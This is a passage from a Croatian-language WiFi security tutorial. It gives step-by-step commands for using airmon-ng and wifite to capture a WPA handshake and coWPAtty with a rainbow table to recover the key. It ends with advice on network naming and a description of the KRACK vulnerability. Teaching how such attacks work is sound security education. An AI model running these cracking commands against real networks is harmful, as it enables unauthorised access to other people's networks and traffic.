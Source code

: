     `sudo airmon-ng`

2. korak - **Ako postoje procesi koji koriste karticu (ispiše se upozorenje u prethodnom koraku), ugasiti ih**
    
    `sudo airmon-ng check kill `

3. korak - pokrenuti alat **wifite2**

    `sudo wifite`

4. korak - odabrati željenu mrežu
5. korak - pričekati da se izvrše automatski napadi
6. korak - dekriptirati ključ pomoću alata **coWPAtty**
   1. provjeriti naziv datoteke pohranjene u direktoriju **hs**

      `ls hs/`

   2. pokrenuti alat **coWPAtty**
   
      `sudo cowpatty -r hs/handshake.cap -d ZyXEL.hash -s "ZyXEL"`

      - `-r` = opcija za korištenje datoteke koja sadržava mrežne pakete
      - `hs/handshake.cap` = datoteka koja sadržava **WPA Handshake**
      - `-d` = opcija za korištenje **Rainbow tablice**
      - `ZyXEL.hash` = <a href="https://www.renderlab.net/projects/WPA-tables/" target="_blank"><strong>Rainbow tablica</strong></a>
      - `-s "ZyXEL"` = naziv željenje mreže


7. korak - ako je **Rainbow tablica** sadržavala vrijednost ključa koji je koristila napadnuda mreža, **coWPAtty** će ispisati vrijednost ključa.

<p class="alert alert-danger text-center"><strong>Zaključak: izbjegavajte korištenje jednostavnih ili zadanih naziv mreže kao što su: <code>default</code>; nazivi proizvođača opreme: <code>ZyXEL</code>, <code>Linksys</code> i ostala lako predvidljiva imena!<br>Za većinu takvih mreža <a href="https://www.renderlab.net/projects/WPA-tables/" target="_blank">već postoje Rainbow tablice</a> koje omogućavaju brzo otkrivanje WPA/WPA2 ključa pomoću alata kao što je coWPAtty.
</strong></p>

### Napadi ponovnom instalacijom ključa

Mathy Vanhoef i Frank Piessens otkrili su ranjivost u WPA2 protokolu. Napadač koji se nalazi u blizini klijenta može iskoristiti te ranjivosti koristeći napad ponovnom instalacijom ključa, i pri tome pročitati sve informacije za koje se smatra da su zaštićene enkripcijom, što se može iskoristiti za krađu povjerljivih informacija. Napad je moguće izvesti na svim modenim WiFi mrežama koji koriste WPA2 protokol. Ovisno o konfiguraciji mreže, moguće je i manipulirati podactcima koji se prenose mrežom.

Ranjivosti se nalaze u samome WiFi standardu, a ne u njegovoj implementaciji kod uređaja. Napad se koristi manipulacijom porukama koje se šalju mrežom i klijentu šalje kriptografski ključ koji se već upotrebljava, što omogućava da se pojedini parametri ponovno postave na zadanu vrijednost. Kako se sve informacije sada enkriptiraju već korištenim ključem koji je napadaču poznat, napadač njime može napraviti dekripciju poslanih podataka.

Kako bi se onemogućilo izvršavanje ovog napada na uređaju, autori preporučuju ažuriranje pogonskih programa bežičnih mrežnih kartica.
